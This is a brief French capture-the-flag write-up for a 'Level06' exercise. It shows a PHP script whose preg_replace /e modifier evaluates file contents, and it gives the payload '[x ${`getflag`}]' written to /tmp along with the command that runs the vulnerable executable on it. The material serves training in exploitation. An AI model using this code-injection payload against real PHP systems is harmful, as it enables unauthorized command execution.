


# Level06

**Apres quelques secondes on constate qu'il faut passer un fichier en parametre de l'executable et que celui-ci affiche le resultat de son execution `print $r;`*



```php
#!/usr/bin/php
<?php
function y($m) {
   $m = preg_replace("/\./", " x ", $m);
   $m = preg_replace("/@/", " y", $m);
   return $m;
}
function x($y, $z) {
   $a = file_get_contents($y);
   $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);
   $a = preg_replace("/\[/", "(", $a);
   $a = preg_replace("/\]/", ")", $a);
   return $a;
}
$r = x($argv[1], $argv[2]);
print $r;
?>
```

**On creer donc un script pour l'expoiter**
`echo '[x ${`getflag`}]' > /tmp/tmp`

**Puis on relance l'executable avec la commande suivante:**
`./level06 /tmp/tmp`

